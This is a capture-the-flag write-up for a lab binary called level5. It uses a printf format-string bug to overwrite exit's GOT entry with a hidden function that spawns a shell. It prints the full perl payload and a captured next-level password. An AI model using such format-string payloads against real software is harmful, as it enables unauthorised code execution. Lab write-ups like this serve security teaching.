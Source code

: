 # level5

```bash
> objdump -d level5
...
080484a4 <o>:
 80484a4:	55                   	push   %ebp
 80484a5:	89 e5                	mov    %esp,%ebp
 80484a7:	83 ec 18             	sub    $0x18,%esp
 80484aa:	c7 04 24 f0 85 04 08 	movl   $0x80485f0,(%esp)
 80484b1:	e8 fa fe ff ff       	call   80483b0 <system@plt>
 80484b6:	c7 04 24 01 00 00 00 	movl   $0x1,(%esp)
 80484bd:	e8 ce fe ff ff       	call   8048390 <_exit@plt>
...
```
```c
void	o() {
	system("/bin/sh");
}
```
> view the `Ressources/main.asm` and `source` files for the disasembly part

Interesting we can see a function `o` that is never called, let's try to call it.

---

we can see the address of `o` in the objdump output: `0x080484a4`

Or using gdb:
```
(gdb) disass o
...
0x080484a4 <- this is the address of o
...
```
```
(gdb) p o
$2 = {<text variable, no debug info>} 0x080484a4 <o>
```

---

After `printf` the `exit` function from stdlib is called
```c
{
	...
	printf(str);
	exit(1);
}
```

We will change the `exit` GOT entry to point to the `o` function instead
```
080483d0 <exit@plt>:
 80483d0:	ff 25 38 98 04 08    	jmp    *0x8049838
 80483d6:	68 28 00 00 00       	push   $0x28
 80483db:	e9 90 ff ff ff       	jmp    8048370 <_init+0x3c>
```

The GOT entry of exit is `0x8049838`


---

Ok so we have to replace the value in `0x08049838` (exit) to `0x080484a4` (o).

We can do this using printf.
> https://www.exploit-db.com/papers/23985

Let's determine the offset at which the first printf arg begin.
```bash
> for i in {0..100}; do echo "Index: $i" && echo "****%$i\$x" | ./level5 ; done | grep -B1 2a2a
Index: 4
****2a2a2a2a
```

We can write any value we want at the exit address with this line
```bash
> ./level5 < <(perl -e 'print "\x38\x98\x04\x08" . "%4\$hn"')
# exit address is 0x08040004
# we only write on the 2 last bytes
```

---

We only need to replace the last 2 bytes (the first 2 bytes in exit call are already `0x0804`).

`0x84a4`:
- 0x84a4 - 4 = 33952

```bash
> ./level5 < <(perl -e 'print "\x38\x98\x04\x08" . "%33952x" . "%4\$hn"')
```
Ok no segfault now.

---

full exploit

```bash
> (perl -e 'print "\x38\x98\x04\x08" . "%33952x" . "%4\$hn"'; cat) | ./level5
...
(level6) > cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```
